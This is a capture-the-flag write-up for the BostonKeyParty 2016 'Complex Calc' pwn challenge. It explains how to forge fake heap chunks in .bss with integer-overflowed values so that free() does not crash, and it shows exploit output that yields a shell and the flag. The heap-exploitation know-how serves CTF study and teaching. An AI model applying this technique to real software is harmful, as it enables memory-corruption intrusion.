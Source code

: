 
## BostonKeyParty CTF 2016 - Complex Calc (Pwn 6pt)
##### 04/03 - 06/03/2015 (48hr)
___
### Description: 
we've fixed a tiny bug!

simplecalc.bostonkey.party 5500
___
### Solution
This code is identical with the simple calc. However the previous exploit doesn't work. We get 
segmentation fault upon free(). If we look at free(), there's no check if argument is NULL:
```assembly
.text:00000000004156D0 free            proc near ; CODE XREF: _i18n_number_rewrite+1EAp
.text:00000000004156D0                           ; _i18n_number_rewrite_0+1EAp ...
.text:00000000004156D0          mov     rax, cs:__free_hook
.text:00000000004156D7          test    rax, rax
.text:00000000004156DA          jnz     loc_41579A
.text:00000000004156E0          nop     dword ptr [rax]
.text:00000000004156E3          nop     word ptr [rax+rax+00h]
.text:00000000004156E9          mov     rax, [rdi-8]
.text:00000000004156ED          lea     rsi, [rdi-10h]
```
This means that ptr_10 must be a valid address pointing to the beginning of an allocated chunk on 
the heap:
```assembly
	.text:0000000000401383 ptr_10          = qword ptr -10h
```
This would be trivial is ASLR was disabled, or if we could leak an address from the heap. However,
both scenarios are false so we need another trick.

In order to solve the problem we have to see exactly why free() crashes and how slab allocator
works. If we see an allocated chunk in heap, there are 8 bytes before it (called chunk header)
which stores some metadata about the allocated region:
```
offset:	-16                    -8
		+----------------------+--------------------------+
		| previous chunk size  | Chunk size % 8 + 3 FLAGS |
	  0 +----------------------+--------------------------+
ptr -->	|                                                 |
		|                    User Data                    |
		|                                                 |
		+--------------------------------------------------
```
The minimum possible chunk size is 8 bytes, so we use the 3 LSBits as flags. If the LSBit is 
clear, we can find the previous chunk by using ptr - 16 as the previous chunk size. Slab
allocator keeps a linked list with all free chunks. Upon free() we must insert (and possibly
coallesce) the chunk in the free list.

If we somehow forge a fake chunk, we can make slab allocator believing that it's a valid chunk,
so it won't crash on free(). Remember our goal is to don't crash, not to really free some memory.

The only memory region that we can control and we know its address is in .bss. These are the
global variables used to store arguemnts for calculations. Thus we have to create a fake
chunk there and overwrite ptr_10 with an address within there.

Let's see the memory layout:
```assembly
.bss:00000000006C4A80             public add_1_6C4A80
.bss:00000000006C4A80 00 00 00 00 add_1_6C4A80 dd 0 	; DATA XREF: adds+13o
.bss:00000000006C4A80                                	; adds+5Er ...
.bss:00000000006C4A84 00 00 00 00 add_2_6C4A84 dd 0  	; DATA XREF: adds+40o
.bss:00000000006C4A84                               	; adds+69r ...
.....
.bss:00000000006C4AB4                                	; subs+69r ...
.bss:00000000006C4AB8 00 00 00 00 _sub_ans_6C4AB8 dd 0  ; DATA XREF: subs+98w
.bss:00000000006C4AB8                                  	; subs+9Er ...
.bss:00000000006C4ABC 00 00 00 00 align 20h
```

This is how we can forge our fake chunk: 
```
0x06C4A80: add_1    --> any value
0x06C4A84: add_2 	--> any value	(ignored, because LSbit is set)
0x06C4A88: add_res 	--> 0x21		(16B long, and LSbit is set)
0x06C4A8C: align	--> 0x00 		(0 by default; it must be 0)

0x06C4A90: div_1 	--> any value 	(the actual allocated chunk)
0x06C4A94: div_2	--> any value
0x06C4A98: div_ans 	--> any value
0x06C4A9C: align	--> any value

0x06C4AA0: mul_1 	--> any value	(next chunk header)
0x06C4AA4: mul_2 	--> any value	(ignored, because LSbit is set)
0x06C4AA8: mul_ans 	--> 0x21		(16B long, and LSbit is set)
0x06C4AAC: align	--> 0x00 		(0 by default; it must be 0)

0x06C4AB0: sub_1 	--> any value 	(the actual allocated chunk)
0x06C4AB4: sub_2 	--> any value
0x06C4AB8: sub_sub	--> any value
0x06C4ABC: align	--> any value
```
Now, we can have 2 valid chunks at .bss, so free() won't complain, because the header pointers
will be valid. Thus all we have to do, is to overwrite ptr_10 with 0x06C4A90 (which supposed to
be the address of the 1st fake chunk). Because the size of the chunk (0x21, will be valid).

The last challenge is how to set add_res and mul_ans to 0x21. Because input numbers must be 
> 0x27, we have to use some very large numbers that will overflow and the result will be
very small. So:

```
add_1   = 0xffffff80 
add_2   = 0xa1
add_res = 0x100000021 = 0x21

mul_1   = 0x80000001
mul_2   = 0x80000021
mul_ans = 0x4000001100000021 = 0x21
```


Now we can write our exploit and get the flag **BKPCTF{th3 l4st 1 2 3z}**

```
root@xrysa:~/ctf/bostonkeyparty# ./complex_calc_expl.py 
	[..... TRUNCATED FOR BREVITY .....]
	Options Menu: 
	 [1] Addition.
	 [2] Subtraction.
	 [3] Multiplication.
	 [4] Division.
	 [5] Save and Exit.
	=> whoami
		nobody
	ls -la
		total 1188
		drwxr-xr-x 2 root root   4096 Mar  5 03:37 .
		drwxr-xr-x 3 root root   4096 Mar  5 03:20 ..
		-rw-r--r-- 1 root root    220 Mar  5 03:20 .bash_logout
		-rw-r--r-- 1 root root   3637 Mar  5 03:20 .bashrc
		-rw-r--r-- 1 root root    675 Mar  5 03:20 .profile
		-rw-r--r-- 1 root root     24 Mar  5 03:37 key
		-rwxr-xr-x 1 root root     83 Mar  5 03:26 run.sh
		-rwxr-xr-x 1 root root 882266 Mar  5 03:25 simpleCalc_v2
		-rw-r--r-- 1 root root 302348 Mar  5 03:20 socat_1.7.2.3-1_amd64.deb
	cat key
		BKPCTF{th3 l4st 1 2 3z}
	exit
	*** Connection closed by remote host ***
```

___
